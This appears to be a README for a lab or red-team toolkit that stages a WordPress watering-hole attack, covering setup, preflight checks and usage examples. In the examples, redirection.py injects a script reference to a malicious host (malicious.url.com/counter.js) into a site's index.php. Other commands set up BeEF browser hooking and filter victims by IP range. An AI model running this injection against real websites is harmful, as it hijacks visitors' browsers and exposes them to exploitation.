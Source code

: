 An apache config file for the wordpress site should be included in the directory. Regardless, links below will be provided if one needs to be made from scratch.

Conversely, the wordpress install should create a wordpress config file for you, but this command expects a running SQL service.

If you are on a system _without_ SQL, instead uncomment the portion of the script that copies the config file to the wordpress directory, and comment out the SQL and wp config portions of the script. These places are commented appropriately.

If you are on a system with a SQL installation similar to Kali, the script will handle the creation of this config file for you.

## Preflight Checks

Preflight for a setup script? Yes, just please make sure that you've got everything operational. Get on to the box that you're installing things on:

```shell
ssh <user>@<IP of server>
```

Make sure that you've got apache and mysql running.

```bash
service apache2 restart
service mysql restart
```

Make sure that you've got sudo privileges

```shell
sudo whoami
```

Once you've installed beef via `fingerprinting.py`, check that you've changed the default credentials

```bash
python3 beef_setup.py # this preflight script does not update in-range.html and will remind you to do so
```

## Usage Examples

```bash
sudo bash wordpress_setup.sh

# On "compromised" Wordpress installation
python3 redirection.py /srv/www/wordpress/index.php https://malicious.url.com/counter.js

# On malicious Wordpress installation
vim counter.js # don't forget to edit counter.js to the URL you'd like the victim to be redirected to!

cp counter.js /srv/www/wordpress/counter.js

python3 fingerprinting.py

python3 beef_setup.py

python3 ip_range.py --help

python3 ip_range.py /srv/www/wordpress/index.php 10.10.10.0 10.10.10.1 -i in_range.html

python3 ip_range.py /srv/www/wordpress/index.php 10.10.10.0/31 -i in_range.html -o out_of_range.html
```
